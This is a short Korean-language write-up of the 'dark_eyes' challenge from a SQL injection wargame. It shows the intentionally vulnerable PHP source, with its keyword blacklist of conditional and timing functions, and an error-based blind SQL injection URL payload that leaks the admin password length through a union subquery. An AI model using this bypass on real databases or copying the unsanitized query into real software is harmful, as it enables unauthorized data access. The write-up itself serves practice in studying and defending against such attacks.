

<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>

조건문 함수들이 모두 막혔기 때문에 전 문제에서 if를 빼고 where로 조건을 넣어주었다.
그리고 에러메세지가 출력이 되지 않는다는 점이 다르다.
https://los.eagle-jump.org/dark_eyes_a~4.php?pw=' or id='admin' and (select 1 union select 2 where LENGTH(pw)=8)--%20
이렇게 하면 LENGTH=8일 때 구문오류가 발생하고 아니라면 select 1 만 실행 된다.
으로 길이를 알아내고 파이썬으로 찾으면 된다.

query : select id from prob_dark_eyes where id='admin' and pw=''